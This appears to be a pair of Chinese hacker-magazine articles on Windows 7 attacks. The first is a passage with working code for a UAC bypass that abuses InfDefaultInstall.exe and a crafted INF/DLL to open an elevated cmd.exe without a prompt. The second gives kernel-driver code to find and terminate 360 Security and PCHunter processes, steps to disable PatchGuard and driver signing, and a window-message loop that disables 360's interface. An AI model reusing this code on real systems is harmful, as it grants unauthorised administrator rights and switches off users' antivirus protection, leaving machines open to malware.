由此得到启发：有没有一个特殊的不会 UAC 弹窗的系统程序在启动的时候是我们可以利用的（比如通过类似 dll 劫持之类的方式，让我们有机会控制它的运行）？顺着这个我们还要问：系统中到底有多少个特殊程序在用户双击运行它们后是完整特权，而且不会触发 UAC 弹窗的？

操作系统中有成百上千个可执行程序，难道我们要一个个右键点过去？

经研究（http://en.wikipedia.org/wiki/User_Account_Control），点击鼠标右键“以管理员身份运行”运行一个程序，是通过类似下面的代码实现的：

```c
ShellExecute(hwnd, "runas", "C:\\Windows\\Notepad.exe", 0, 0, SW_SHOWNORMAL);
```

它和普通的 ShellExecute 执行程序不同的地方在于第二个参数“runas”，在 Vista 及以后的系统中它能触发 UAC 弹窗（如果不是特殊程序的话）。

OK，搞清楚了这一点，那么我们要找出有多少个不会触发 UAC 弹窗的特殊程序就 easy 了：编写一个遍历 C 盘的测试程序，然后对每个可执行文件调用上述传 runas 参数的 ShellExecute 函数，根据 ShellExecute 函数的返回值判断是否是特殊程序。

原理已经明了，这里省略具体代码实现了，我们直奔下面主题。

经测试，Win7 下输出了一堆不会触发 UAC 弹窗的特殊程序。一眼扫过去，在一堆输出结果中有一个程序让人眼前一亮：C:\Windows\system32\InfDefaultInstall.exe，根据文件名猜想：这是一个 inf 安装程序。我们知道，inf 一般都是用于驱动程序安装的，inf 文件中可以编辑很多“指令”，是可以做很多事情的，比如操作注册表、服务、文件等。有关 inf 文件指令的详细介绍请参考 WDK 文档：https://msdn.microsoft.com/en-us/library/windows/hardware/ff547388(v=vs.85).aspx。

接下来，我们随便找个驱动的 inf 文件，通过鼠标右键点击 inf 文件的“安装”来验证我们的猜想，看看 inf 文件安装时是否会调用这个 InfDefaultInstall.exe，如果会又是以何种调用法实现。

通过 SysInternals 工具箱中的 Process Monitor 程序，我们完成整个 inf 文件安装过程的监控分析，验证了之前的猜想，概括出来就是：InfDefaultInstall.exe 会以完整特权运行，并且接收一个 inf 文件路径参数，执行 inf 文件里头的“指令”。

这就好办了！我们可以自拟一个 inf 文件，里面写上实现自己意图的指令，比如加载一个我们的 dll，在 dll 里执行指定程序，就可以搭上 InfDefaultInstall.exe 的便车，自动以完整特权运行，绕过 UAC 的弹窗拦截。

OK，整理下思路：

- 1. 制作一个 inf，如 BypassUAC.inf，里面有注册指定 dll 的指令；
- 2. 制作一个 dll，如 BypassUAC.dll，在 dllmain 中单纯执行一个其他程序，如 cmd.exe，然后强制退出进程；
- 3. 制作一个 exe，如 BypassUAC.exe：用 runas 参数的 ShellExecute 运行 InfDefaultInstall.exe，并且给 InfDefaultInstall.exe 附带 BypassUAC.inf 文件路径参数。
- 4. 双击 BypassUAC.exe 触发。

BypassUAC.exe 关键代码如图 2 所示。

```asm
_WinMain proc _futreUse
  local @dwFlag:DWORD,
        @stSHELLEXECUTEINFO:SHELLEXECUTEINFO,
        @szBuf[MAX_PATH]:BYTE

  invoke GetCurrentDirectory,sizeof @szBuf,addr @szBuf
  invoke lstrcat,addr @szBuf,mString(<"\\BypassUAC.inf">)

  invoke InitBuf,addr @stSHELLEXECUTEINFO,sizeof @stSHELLEXECUTEINFO
  mov @stSHELLEXECUTEINFO.cbSize,sizeof @stSHELLEXECUTEINFO
  mov @stSHELLEXECUTEINFO.fMask,SEE_MASK_NOCLOSEPROCESS
  mov @stSHELLEXECUTEINFO.nShow,SW_SHOWNORMAL
  lea eax,@szBuf
  mov @stSHELLEXECUTEINFO.lpParameters,eax
  mov @stSHELLEXECUTEINFO.lpFile,mString(<"c:\windows\system32\InfDefaultInstall.exe">)
  mov @stSHELLEXECUTEINFO.lpVerb,mString(<"runas">)
  invoke ShellExecuteEx,addr @stSHELLEXECUTEINFO
  ret
_WinMain endp
```

图 2

BypassUAC.inf 文件内容如图 3 所示。

```ini
[Version]
Signature="$Windows NT$"

[DefaultInstall]
RegisterDlls=OurDll

[OurDll]
01,,BypassUAC.dll,2
```

图 3

BypassUAC.dll 关键代码如图 4 所示。

```asm
DllEntry proc _hInstance,_dwReason,_dwReserved
  local @stSHELLEXECUTEINFO:SHELLEXECUTEINFO

  .if dwReason==DLL_PROCESS_ATTACH
    invoke _InitBuf,addr @stSHELLEXECUTEINFO,sizeof @stSHELLEXECUTEINFO
    mov @stSHELLEXECUTEINFO.cbSize,sizeof @stSHELLEXECUTEINFO
    mov @stSHELLEXECUTEINFO.nShow,SW_SHOWNORMAL
    mov @stSHELLEXECUTEINFO.lpFile,mString(<'c:\windows\system32\cmd.exe'>)
    invoke ShellExecuteEx,addr @stSHELLEXECUTEINFO
  .endif

DllEntry_Exit:
  invoke ExitProcess,NULL
  mov eax,FALSE
  ret

DllEntry endp
```

图 4

图 5 是实测效果，右上的 cmd 是默认双击打开的无完整特权的，左下是双击 BypassUAC.exe 后弹出的不触发 UAC 弹窗的具有完整特权的 cmd。

测试环境：  
操作系统：Windows 7 Ultimate SP1 x64，全新安装+全补丁  
当前用户：test，隶属于 administrators 组  
UAC：默认级别



图 5

### 再谈对抗 360 安全卫士

文/图 弹相辰

继去年笔者在《黑客防线》杂志上发表几篇文章之后，这段时间除了繁忙的日常事务之外，又阅读了诸多黑防高手们的文章。随着学习研究的深入，更加深切地体会到自己在技术方面的匮乏。于是，我便再次以 360 安全卫士（在 x86/x64 的 Windows7 系统上）为研究对象，将自己最近一个时期学习的知识融入其中，以不同的几种方式来对抗 360，写出来和大家分享一下。笔者的目的不在于说用几种方式杀掉 360 的进程，而是在于和广大读者一起讨论 Windows 内核知识，与大家共同进步。

#### 恢复 Inline Hook KiFastCallEntry 法

在 2014 年第 5、6 期黑防杂志上，笔者分析了恢复 Inline Hook KiFastCallEntry 来对抗腾讯电脑管家、360 安全卫士的方法，就程序本身来说，还是比较好理解的，并且也已提供给大家，在这里便不再赘述了。但当时只是对程序做出了分析，并没有讨论为什么这样做可以结束 360 进程，这里顺便说一下。

对于常见的 Ring3 层的病毒，可以使用 OpenProcess 与 TerminateProcess 的组合来干掉病毒进程，但是想要这么干掉 360 的进程，显然是行不通的。这里以 TerminateProcess 为例，分析一下它的执行过程。此 API 实际上是位于 kernel32.dll 模块中，然后又进一步调用 ntdll.dll 模块中的 NtTerminateProcess 函数，该函数是一个存根函数，它通过 ntdll.dll 中的 KiFastSystemCall 来执行 SYSENTER 指令，然后进入了 Ring0 层，通过系统服务号来查找调用原生的（nt!）NtTerminateProcess 例程，从而结束指定进程。

然而，现实情况是，360 安全卫士做了一个 Inline Hook KiFastCallEntry，劫持了正常的系统调用，当 360 的 NtTerminateProcess 发现结束的是自己的进程时，必然会拒绝。这种方法与传统的 Hook SSDT 相比，更具有隐蔽性，所以我之前说更不容易发现 360 Hook 了哪些函数。

另一个好处是，让一些试图恢复 SSDT 来攻击安全软件的 Rootkit 失去了作用。如图 1 所示，用 PCHunter 发现的“从 int2e/sysenter 到 ssdt 表路径上检测到钩子”。可惜的是，钩子并无保护，被恢复之后，我们便可以“任性”地在任务管理器中结束所有 360 的进程，这正是恢复系统原始调用的最好诠释。图 2 形象地说明了这个过程。


图 1



图 2

#### 进程线程法

先来看一张 Windows 内核空间概念图，如图 3 所示。



图 3

这里插一段题外话，相信很多人在初学时都和我一样，有这样的困惑：为什么同样名字的函数，如 TerminateProcess，会有 Zw 和 Nt 两个版本呢？让我们直接反汇编来解答这个问题。

```text
kd> u ZwTerminateProcess
nt!ZwTerminateProcess:
83e4e43c b872010000        mov     eax,172h
83e4e441 8d542404          lea     edx,[esp+4]
83e4e445 9c                pushfd
83e4e446 6a08              push    8
83e4e448 e8a10b0000        call    nt!KiSystemService (83e4efee)
83e4e44d c20800            ret     8

kd> u NtTerminateProcess l80
nt!NtTerminateProcess:
8406d9bf 8bff              mov     edi,edi
8406d9c1 55                push    ebp
8406d9c2 8bec              mov     ebp,esp
8406d9c4 83ec10            sub     esp,10h
8406d9c7 53                push    ebx
8406d9c8 56                push    esi
8406d9c9 648b3524010000    mov     esi,dword ptr fs:[124h]
8406d9d0 8b5e50            mov     ebx,dword ptr [esi+50h]
8406d9d3 8a863a010000      mov     al,byte ptr [esi+13Ah]
```

……

总的来说，Zw*() 是将系统服务号传递给 eax，经过一系列操作，通过 KiSystemService 例程来实现系统调用，这是合乎微软规定的一个过程；而 Nt*() 则没有这个过程，是直接转移到系统调用，并实现了具体的功能，更详细来说，NtTerminateProcess 调用了 PspTerminateThreadByPointer 等更加底层的 API。

我们可以看到，在系统调用以下，有许多的管理器，其中包含大量的实现关键功能的 API，尽管它们很多都是未文档化的，但我们只要使用合理，便可以绕过 360 的 Hook，在不恢复 Hook 的情况下杀掉 360 进程。

既然是杀掉进程，我们自然将目光放到 Ps*() 例程中。刚才我们提到，直接调用 NtTerminateProcess 肯定是不可行的，那么首选的函数应该是 PsTerminateProcess，其定义如下，非常简单：

```c
PsTerminateProcess(IN PEPROCESS Process, IN NTSTATUS ExitStatus);
```

在 XP 系统中，PsTerminateProcess 直接调用 PspTerminateProcess 去实现具体功能；而在 Windows7 系统中没有发现 PspTerminateProcess 函数，而是直接在 PsTerminateProcess 中实现了具体功能，调用了 PspTerminateAllThreads，顾名思义，结束进程的方法正是杀掉所有线程。为获得 PsTerminateProcess 第一个参数，需进行以下讨论。

在图 3 中我们看到的 Hal（硬件抽象层）位于硬件之上，作用是屏蔽硬件的差别；Hal 之上即为内核模块 ntoskrnl，它的上层部分称为执行体，负责管理与策略相关的功能，进程与线程在执行体上的数据结构是 EPROCESS 与 ETHREAD；下层部分称为微内核，主要实现了操作系统的核心机制，进程与线程在微内核上的数据结构是 KPROCESS 与 KTHREAD。

查看一下 Win7 系统上的 EPROCESS 结构体中对我们有用的部分：

```text
kd> dt nt!_EPROCESS
+0x000 Pcb               : _KPROCESS//指向 KPROCESS
……                      ……
+0x0b4 UniqueProcessId   : Ptr32 Void//进程 ID
+0x0b8 ActiveProcessLinks: _LIST_ENTRY//进程链表
……                      ……
+0x16c ImageFileName     : [15] UChar//进程名
+0x188 ThreadListHead    : _LIST_ENTRY//线程链表
```

这四个结构体都是十分复杂的，大家可以自己去调试，这里我们的目的是通过 360 的进程名获得 PID，程序可以是这样的：

```c
NTSTATUS Get360pid(UCHAR* uname)
{
    PEPROCESS pEprocess = NULL;
    PEPROCESS pFirstEprocess = NULL;
    ULONG ulProcessName = 0;
    ULONG ulProcessId = 0;
    int objectpid;

    pEprocess = PsGetCurrentProcess();//获得 EPROCESS
    pFirstEprocess = pEprocess;
    while ( pEprocess != NULL )
    {
        ulProcessName = (ULONG)pEprocess + 0x16c;//获得进程名
```

## 链表

```c
ulProcessId = *(ULONG *)((ULONG)pEprocess + 0xb4); // 获得 PID
if (strstr(ulProcessName, uname)) // 匹配 360 进程名
{
    objectpid = ulProcessId; // 获得 360 PID
}
pEprocess = (ULONG)(*(ULONG *)((ULONG)pEprocess + 0xb8) - 0xb8); // 遍历进程

if (pEprocess == pFirstEprocess || (*(LONG *)((LONG)pEprocess + 0xb4)) < 0)
{
    break;
}
}

return objectpid;
}
```

接下来这样：

```c
NTSTATUS KillByPid(IN ULONG pid)
{
    NTSTATUS st = STATUS_SUCCESS;
    PEPROCESS eprocess = NULL;
    NTSTATUS ExitStatus = 0;
    st = PsLookupProcessByProcessId(pid, &eprocess);
    ObDereferenceObject(eprocess);
    st = PsTerminateProcess(eprocess, ExitStatus);
    return st;
}
```

在 DriverEntry 中调用：

```c
KillByPid(Get360pid("360Tray"));
KillByPid(Get360pid("360sd"));
KillByPid(Get360pid("ZhuDongFangYu"));
KillByPid(Get360pid("360rp"));
KillByPid(Get360pid("PCHunter"));
```

这里不得不提到 Windows 句柄与对象机制。有一个被称为 Cid 句柄表的概念，Cid 句柄表没有加入到系统的句柄表链表中，它保存了进程与线程的对象地址。我们知道的 PsLookupProcessByProcessId、PsLookupThreadByThreadId 等函数，正是利用 Cid 句柄表这一机制，通过传入的 PID 来获得相应对象的地址，而对象又有一个引用计数的问题，刚才打开了一个对象，然后就要调用 ObDereferenceObject 减去这个计数。

为什么要尝试一下 PCHunter 呢？图 4 为 360 的 Inline Hook KiFastCallEntry 与 PCHunter 的 Inline Hook NtTerminateProcess、Inline Hook NtTerminateThread。PCHunter 采用了 Inline Hook NtTerminateProcess 与 NtTerminateThread 保护进程，看来 PsTerminateProcess 也可以躲过这个钩子。但对 360 这个装机量巨大的安全软件来说，在系统调用以下，似乎未做任何处理，被这样一个简单程序结束进程，这种情形还是有些欠妥的。由于加载驱动后瞬间结束进程，故无法截图验证。但笔者希望我们不要到这里浅尝辄止，下面和大家继续探索。



图 4

由于 PspTerminateAllThreads 是基于 PspTerminateThreadByPointer 实现的，我们重点看 PspTerminateThreadByPointer 的功能。

```text
kd> u PspTerminateThreadByPointer l80
nt!PspTerminateThreadByPointer:
// 是当前线程
84066040 ff750c            push    dword ptr [ebp+0Ch]
84066043 e842a00100        call    nt!PspExitThread (8408008a)
// 不是当前线程
84066090 687b400984        push    offset nt!PspExitNormalApc (8409407b)
84066095 685e400984        push    offset nt!PspExitApcRundown (8409405e)
8406609a 682f400984        push    offset nt!PspExitSpecialApc (8409402f)
8406609f 53                push    ebx
840660a0 ff7508            push    dword ptr [ebp+8]
840660a3 56                push    esi
840660a4 e84a0de6ff        call    nt!KeInitializeApc (83ec6df3) // 初始化 Apc
840660a9 6a02              push    2
840660ab 53                push    ebx
840660ac 56                push    esi
840660ad 56                push    esi
840660ae e86367e6ff        call    nt!KeInsertQueueApc (83ecc816) // 插入 Apc
......
......
```

PspTerminateThreadByPointer 先判断如果是当前线程，调用 PspExitThread 结束线程；如果不是当前线程，则由 KeInsertQueueApc 插入 Apc，插入的是 PspExitSpecialApc、PspExitApcRundown、PspExitNormalApc，最后仍然调用 PspExitThread 达到目的。其后仍然是一个非常复杂的过程，简要地说，PspExitThread 要处理该线程相关的跨线程引用、线程定时器、Apc、清除地址空间等等工作，再调用 KeTerminateThread 函数，涉及了线程调度的概念，再调用 KiSwapThread 函数。KiSwapThread 交出线程控制权，并且再也不会得到控制权。

因此，**KeTerminateThread** 永不返回，**PspExitThread** 也不返回，线程调度器再也不会调用这个线程了，可以说自此这一线程真正终止了。

还记得以前看黑防高手们的文章，往往只说一句“插 Apc”，然后就是一堆代码，让当时的我不明就里，所以我希望搞清楚为何插入 Apc 能结束线程。

要从中断说起，中断描述符表（IDT）是将每个中断与处理该中断的服务例程关联了起来，它们主要是处理与硬件相关的内容。此外，Windows 定义了一个中断请求级别（IRQL），如表 1 所示。

| IRQL 名称 | IRQL 作用 | IRQL 等级 |
|---|---|---|
| HIGH_LEVEL（高） | 硬件中断 | 31 |
| POWER_LEVEL（电源） | 硬件中断 | 30 |
| IPI_LEVEL（处理器间中断） | 硬件中断 | 29 |
| CLOCK_LEVEL（时钟） | 硬件中断 | 28 |
| PROFILE_LEVEL（性能剖析） | 硬件中断 | 27 |
| DIRQL（设备） | 硬件中断 | 26 |
| …… | 硬件中断 | …… |
| DIRQL（设备） | 硬件中断 | 3 |
| DISPATCH_LEVEL（线程调度） | 系统调度和 DPC | 2 |
| APC_LEVEL（异步过程） | 异步过程 | 1 |
| PASSIVE_LEVEL（被动） | 普通程序执行 | 0 |

表 1

IRQL 有 0-31 个级别，数值越大，优先级越高。普通线程运行在 **PASSIVE_LEVEL** 级别，**APC_LEVEL** 仅比 PASSIVE_LEVEL 级别高，因此，插入 Apc 可以结束掉线程。运行在 **DISPATCH_LEVEL** 的代码，有可能进行线程调度（比如 KiSwapThread），也有可能是 DPC（比如定时器，以前讨论过监视 Hook 是否被恢复）。3-31 涉及硬件中断，不再讨论。

另一个实际应用是，在 Hook 中使用 **KeRaiseIrqlToDpcLevel()** 将 IRQL 提升到 DISPATCH_LEVEL 可以防止被其他线程打断造成 BSoD，但只适用于单核 CPU；在多核 CPU 上，可以使用自旋锁，使其他处理器总是在“空转”，检查自旋锁的状态，直到该锁被释放。自旋锁总是运行在 DISPATCH_LEVEL 或更高的级别。伪代码如下：

```c
KeInitializeSpinLock(&spinlock);            // 初始化自旋锁
KeAcquireSpinLock(&spinlock, &oldirql);     // 获得自旋锁
WPOFF();                                    // 关闭写保护
Hook();
WPON();                                     // 打开写保护
KeReleaseSpinLock(&spinlock, oldirql);      // 释放自旋锁
```

总之，要想实现自己的 MyPsTerminateProcess，应当利用 **PsLookupProcessByProcessId** 获得的进程 eprocess，遍历进程所有线程（可以用 **PsGetNextProcessThread**，也可以用上面提到的 ThreadListHead），把每个线程都用 **PspTerminateThreadByPointer** 来结束掉。要想实现自己的 MyPspTerminateThreadByPointer，就应该对每个线程都插入一个 Apc，从而结束掉所有线程，也就达到了杀掉进程的目的。

#### 内存法

创建新进程时一个很重要的工作就是创建地址空间，**PspCreateProcess** 先调用 **MmCreateProcessAddressSpace** 创建进程地址空间，再调用 **MmInitializeProcessAddressSpace** 来初始化地址空间。我们需要关注的一个重要过程是在新进程中映射内存区对象。**MmCreateSection** 函数可以创建一个内存区对象，但为了可以使用该对象，必须将其映射视图，在系统服务例程中由 **NtMapViewOfSection** 来执行，在内存管理器 **Mm\*( )** 中对应的例程是 **MmMapViewOfSection**。相反地，有一个解除映射的过程，**NtUnMapViewOfSection/MmUnMapViewOfSection** 皆调用 **MiUnMapViewOfSection** 来实现具体的功能。这里，假设我们可以解除某进程的内存区对象映射视图，那么就可以达到干掉进程的目的。请看代码：

```c
NTSTATUS KillByPid(int pid)
{
    NTSTATUS st;
    PVOID p = (PVOID)0x400000;
    PEPROCESS eprocess = NULL;
    st = PsLookupProcessByProcessId(pid, &eprocess);
    ObDereferenceObject(eprocess);
    st = MiUnMapViewOfSection(eprocess, p, 0);
    return st;
}
```

与上面的代码相同，在 DriverEntry 中调用 KillByPid()，其中调用 Get360pid() 来获得 360 进程 ID，只是在 KillByPid() 中换成了 MiUnMapViewOfSection 来达到目的。其中，PsTerminateProcess 与 MiUnMapViewOfSection 皆未导出，我们可以学习黑防高手的搜索特征码的方法，但我们这里只研究 Windows7 系统，为了实用与简化，在程序中都是用“已导出 API+偏移”的方法，区别于直接硬编码。这种方法虽然技术含量不高，但可以适用于所有运行着 Windows7 系统的电脑。还有，在列出的程序中省掉了一些非必需的步骤，详见给出的代码。图 5 为运行本程序后 360 杀毒的报错。



图 5

## 关于 **Windows7 x64** 上的 **360 安全卫士**

提到 Win64 的内核，PatchGuard 是一个绕不开的话题。大约自从 Windows Vista（64 位）系统开始，为了保证系统的安全性，引入了这一机制，使得我们自己编写的驱动不能再顺利地加载在内核当中。即使像 360 这样的安全公司花钱向微软购买了签名，其编写的驱动也不能再像 x86 系统那样进行内核 Hook 了。

但是这一切似乎难不倒黑客高手，援引国外高手的破解思路，突破 PatchGuard 需要修改 winload.exe 与 ntoskrnl.exe，具体的不细说了，总体思路就是把有关数字签名校验机制与 PatchGuard 的相关部分 jmp 或 nop 掉。我们这里直接使用黑防提供的相关工具，先运行 patch.exe，再运行“一键破解”程序，然后重启并选择废除数字签名校验机制与 PatchGuard 的那个选项，进入系统后便可以加载我们的驱动了。

拿出刚才说过的 **PsTerminateProcess** 杀 360 的程序，做如下修改：

- 1. 重新计算 PsTerminateProcess 的地址。
- 2. 在 Windows7 x64 上的 EPROCESS 如下，在对应的位置要做修改。

```text
kd> dt nt!_EPROCESS
    +0x000 Pcb                 : _KPROCESS
    ......                     ......
    +0x180 UniqueProcessId     : Ptr64 Void
    +0x188 ActiveProcessLinks  : _LIST_ENTRY
    ......                     ......
    +0x2e0 ImageFileName       : [15] UChar
```

- 3. 这是最重要同时也是最容易被忽略的一点，这里是 64 位系统，必须要将所有的 ULONG 改为 ULONG64 才可以。

修改后的程序如期地在 Windows7 x64 上杀掉了 360 的相关进程。

但是在实际应用当中，上述过程略显繁琐了。由于没有 Hook Shadow SSDT，我们可以尝试窗口攻击，代码如下：

```c
int APIENTRY WinMain(HINSTANCE hInstance,
    HINSTANCE hPrevInstance,
    LPSTR lpCmdLine,
    int nCmdShow)
{
    while (1) // 持续发送关闭消息，消耗系统大量资源
    {
        EnumWindows(EnumWindowsProc, 0);
    } // 枚举所有窗口
    return 0;
}

BOOL CALLBACK EnumWindowsProc(HWND hwnd, LPARAM lParam)
{
    char wtitle[512];
    GetWindowText(hwnd, wtitle, sizeof(wtitle));
    if (strstr(wtitle, "360 杀毒") || strstr(wtitle, "360 安全卫士")) // 查找 360 窗口，发送关闭消息
    {
        ::SendMessage(hwnd, WM_CLOSE, 0, 0);
        ::SendMessage(hwnd, WM_DESTROY, 0, 0);
        ::SendMessage(hwnd, WM_QUIT, 0, 0);
    }
    return 1;
}
```

以管理员身份运行此程序，360 安全卫士窗口闪退，360 杀毒的窗口如图 6 所示，它们均失去了与用户交互的能力。

最后再提下 360 的进程保护机制，用 PCHunter 查看内核情况，发现 360 并没有像 32 位那样 Hook SSDT 或是 Inline Hook KiFastCallEntry 来保护进程，而是做了几个 Object Hook，如图 7 所示。当我们用 PCHunter 恢复这些钩子后，便可以在任务管理器中轻松结束 360 进程了。


图 6

